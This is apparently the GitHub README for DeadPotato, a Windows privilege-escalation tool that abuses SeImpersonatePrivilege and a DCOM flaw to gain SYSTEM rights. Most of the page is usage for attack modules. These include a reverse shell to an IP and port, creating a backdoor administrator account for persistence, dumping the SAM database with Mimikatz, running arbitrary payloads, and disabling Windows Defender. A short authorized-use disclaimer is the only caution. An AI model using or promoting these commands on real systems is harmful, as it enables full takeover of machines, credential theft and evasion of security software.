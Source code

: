 ![image](https://github.com/user-attachments/assets/460525cb-1871-4608-a6e5-1c5da07f63aa)

<p align="center">
  <a href="#"><img alt="forksBDG" src="https://img.shields.io/github/forks/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="starsBDG" src="https://img.shields.io/github/stars/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="licenseBDG" src="https://img.shields.io/github/license/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="languageBDG" src="https://img.shields.io/badge/LANGUAGE-CSHARP-green?style=for-the-badge"></a>

<h4 align="center"><i>❗Usage of this program under an unauthorized context is strictly forbidden. The author(s) of DeadPotato do not take any responsibility for any unintentional harm caused to systems. Use with caution. ❗</i></h3>

```
C:\Users\lypd0> GodPotato.exe
  
    ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
    ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
    ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
    ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
    ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version: 1.1 =-
        ⠈⠁⠀⠀⠀

_,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_

 (*) Example Usage(s):

   -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

   -> deadpotato.exe -cmd "whoami"
   -> deadpotato.exe -rev 192.168.10.30:9001
   -> deadpotato.exe -exe paylod.exe
   -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
   -> deadpotato.exe -shell
   -> deadpotato.exe -mimisam
   -> deadpotato.exe -defender off

 (*) Available Modules:

   - cmd: Execute a command as NT AUTHORITY\SYSTEM.
   - rev: Attempts to establish a reverse shell connection to the provided host
   - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
   - newadmin: Create a new administrator user on the local system.
   - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
   - mimisam: Attempts to dump the SAM database with Mimikatz. (NOTE: This will write mimikatz to disk!)
   - defender: Either enables or disables Windows Defender's real-time protection.
```

## ❔Quick Start - How To Use
The `SeImpersonatePrivilege` right is enabled in your context? With **DeadPotato**, it is possible to achieve maximum privileges on the local system.<br><br>
The tool will attempt to start an elevated process running in the context of the `NT AUTHORITY\SYSTEM` user by abusing the DCOM's RPCSS flaw in handling OXIDs, allowing unrestricted access over the machine for critical operations to be freely performed.<br><br>
⚠️ In the following case, the `-cmd` module is used. Many modules are available for use, such as the `-rev IP:PORT` for spawning an elevated reverse shell, or `-newadmin usr:pass` for creating a new local Administrator user for persistence.

![cmd_GQJhLcT9IH](https://github.com/user-attachments/assets/b5f71f4a-f8bc-4099-81c5-54bcece7abb6)

#### Verify SeImpersonatePrivilege rights
In order to use DeadPotato, the SeImpersonatePrivilege right must be enabled in the current context. In order to verify this, the `whoami /priv` command can be executed.
If there privilege is disabled, exploitation is not possible in the current context.
```
C:\Users\lypd0> whoami /priv

<...SNIP...>
SeImpersonatePrivilege    Impersonate a client after authentication     Enabled
<...SNIP...>
```


## 🐚 Getting an Elevated Reverse Shell
![cmd_XQASCL7Lz6](https://github.com/user-attachments/assets/201fa7cb-4253-47e4-8beb-1ae781fc481c)

### 🏅 Credits
This Project "DeadPotato" is a tool built on the source code of the masterpiece "GodPotato" by BeichenDream.
If you like this project, make sure to also go show support to [the original project](https://github.com/BeichenDream/GodPotato)

### License
This project is licensed under the [MIT License](https://choosealicense.com/licenses/apache-2.0/). Please review the LICENSE file for more details.
